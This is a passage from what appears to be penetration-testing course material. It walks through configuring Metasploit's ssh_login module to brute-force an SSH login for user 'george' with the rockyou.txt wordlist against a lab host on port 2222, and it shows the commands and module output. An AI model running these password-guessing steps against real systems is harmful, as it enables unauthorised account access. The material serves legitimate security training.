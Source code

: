 > Listing 20 - Displaying all SSH auxiliary modules

The output lists an auxiliary module named *auxiliary/scanner/ssh/ssh\_login* with a fitting description. We can activate it by using the index 15. Once the module is activated, we can display its options.

```
msf6 auxiliary(scanner/smb/smb_version) > use 15

msf6 auxiliary(scanner/ssh/ssh_login) > show options

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
...
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           false            yes       Whether to print output for all attempts
```

> Listing 21 - Display options of the *ssh\_login* module

There are various options to set in this module. Fortunately, Metasploit already set several for us. As with Hydra's options, we can set a single password and user, or provide files containing users, passwords, or both.

As in the example in *Password Attacks*, we assume we already identified the username *george*. We can specify **rockyou.txt** for the option **PASS\_FILE**. Finally, we set **RHOSTS** to **192.168.50.201** and **RPORT** to **2222**.

```
msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/wordlists/rockyou.txt
PASS_FILE => /usr/share/wordlists/rockyou.txt

msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME george
USERNAME => george

msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.50.201
RHOSTS => 192.168.50.201

msf6 auxiliary(scanner/ssh/ssh_login) > set RPORT 2222
RPORT => 2222
```
